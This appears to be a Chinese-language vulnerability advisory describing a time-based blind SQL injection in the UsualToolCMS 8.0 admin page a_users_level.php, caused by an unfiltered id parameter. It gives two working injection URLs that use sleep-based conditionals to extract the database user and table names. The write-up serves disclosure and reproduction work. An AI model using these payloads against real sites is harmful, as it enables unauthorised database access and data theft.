 ```yaml
---
title: "UsualToolcms 8.0 后台盲注"
id: zhfly3215
---
```


# UsualToolcms 8.0 后台盲注

## 一、漏洞简介

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

### 漏洞分析

./cmsadmin/a_users_level.php第19行和第26行，id参数可控

![image](../img/cc86e01958ff9282f9738fbeebca0a62.png)

从get处获取id参数，id存在无任何过滤，当postt id时，通过sqlcheck函数进行过滤，来到文件./class/UsualToolCMS_INC.php第33行，将(',,",null)转义，34行调用sqlchecks函数，比没过滤sql，然而a_users_level.php第19行id不是字符

![image](../img/4ceef9da75cfdd3a07f2897fcb32d3df.png)

### 复现

可以利用时间盲注来进行sql注入攻击，payload如下：

```
a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1) 
```

```
b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1) 
```

![image](../img/e5ce76b6ba2159aab96074e01842892d.png)

时间盲注验证脚本

![image](../img/671fc39af2dd6bd53e35b0d6c48a7c92.png)

![image](../img/7ae951207a79bfc45293e610e6ea8f66.png)